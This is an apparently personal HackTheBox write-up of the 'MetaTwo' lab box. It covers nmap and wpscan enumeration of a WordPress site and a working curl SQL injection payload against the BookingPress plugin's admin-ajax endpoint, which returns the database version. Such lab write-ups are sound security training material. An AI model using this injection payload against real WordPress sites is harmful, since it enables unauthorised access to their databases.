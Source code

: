 # HTB -  MetaTWO
# IP: 10.10.11.186
# Start: 26/02/23

## Info gathering

### Nmap

#### metatwo.htb
```
nmap -sV -sC metatwo.htb- Pn                                                                                                                                                                 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-26 12:06 GMT
Nmap scan report for metatwo.htb (10.10.11.186)
Host is up (0.012s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4b44617d2102d8fec1dc927fecd79ee (RSA)
|   256 2aea2fcb23e8c529409cab866dcd4411 (ECDSA)
|_  256 fd78c0b0e22016fa050debd83f12a4ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.93%I=7%D=2/26%Time=63FB4B3D%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,8F,"220\x20ProFTPD\x20Server\x20\(Debian\)\x20\[::ffff:10\.10\
SF:.11\.186\]\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20cre
SF:ative\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20creative
SF:\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Interesting:
- FTP port (proFTP)
- webserver redirects to metapress.htb

#### metapress.htb

same as previous run aside from http site
```
80/tcp open  http    nginx 1.18.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-generator: WordPress 5.6.2
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: nginx/1.18.0
|_http-title: MetaPress &#8211; Official company site
```
Interesting:
- Wordpress site
- robots.txt tells us of an interesting folder
- sessionid can be read by scripts, potentially allowing token stealing
- path /evox/about may be valid

### Web access

#### http://metapress.htb/ mirrors http://metapress.htb/hello-world

Basic under construction page

interesting links:
- http://metapress.htb/wp-json/
- http://metapress.htb/xmlrpc.php?rsd
- http://metapress.htb/wp-includes/wlwmanifest.xml


#### http://metapress.htb/events

Event form with fillable fields

Interesting:
- POST /wp-admin/admin-ajax.php filling out form (wordpress plugin most likely)

#### http://metapress.htb/about-us/

Under construction about page

Interesting:
- Search button -> http://metapress.htb/?s=

#### Other pages:

These were found by performing an empty search on the /?s page

- http://metapress.htb/cancel-payment/
- http://metapress.htb/cancel-appointment/
- http://metapress.htb/sample-page/ (link to http://metapress.htb/wp-admin/)
- http://metapress.htb/thank-you/ (calls to /wp-content/plugins/bookingpress-appointment-booking)

#### Next steps

ok so it's a wordpress site, that much is clear.
I know about potentially brute forcing through xmlrpc.php, but first i'd like some more info, so i'll use wpscan.

```
wpscan --url http://metapress.htb -e vp,vt --plugins-detection mixed  

[+] WordPress version 5.6.2 identified (Insecure, released on 2021-02-22).
[+] WordPress theme in use: twentytwentyone
 | Location: http://metapress.htb/wp-content/themes/twentytwentyone/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://metapress.htb/wp-content/themes/twentytwentyone/readme.txt
 | [!] The version is out of date, the latest version is 1.7
```
these are interesting but after checking they don't offer any vulnerabilities in the way of unautorized access.

i dont have a wpscan account, but we know of at least one plugin used (bookingpress), and it turns out that there is an SQL injection avaliable for a certain version, so lets check the version.

Without having wpscan for this, i searched pages for links to http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking and came across many links that looked like '<link rel='stylesheet' id='bookingpress_fonts_css-css'  href='http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/fonts/fonts.css?ver=1.0.10' media='all' />'

ver=1.0.10 which is within the bounds of the vulnerability! < 10.0.11
https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357

This page also gives a PoC
it seems that with a nonce generated by the booking plugin you can access the action "bookingpress_front_get_catagory_services", along with providing the nonce, a "category id", and a value for "total service", within this last value, entering a ')' character will escape some string which is directly used in an SQL statement.

So lets craft a payload!

```
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' -data 'action=bookingpress_front_get_category_services&_wpnonce=5c87274b9d&category_id=1&total_service=1) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sun, 26 Feb 2023 13:59:39 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"1","bookingpress_category_id":"1","bookingpress_service_name":"Startup meeting","bookingpress_service_price":"$0.00","bookingpress_service_duration_val":"30","bookingpress_service_duration_unit":"m","bookingpress_service_description":"Join us, we will celebrate our startup!","bookingpress_service_position":"0","bookingpress_servicedate_created":"2022-06-23 18:02:38","service_price_without_currency":0,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"},{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]% 
```

SQL INJECTION!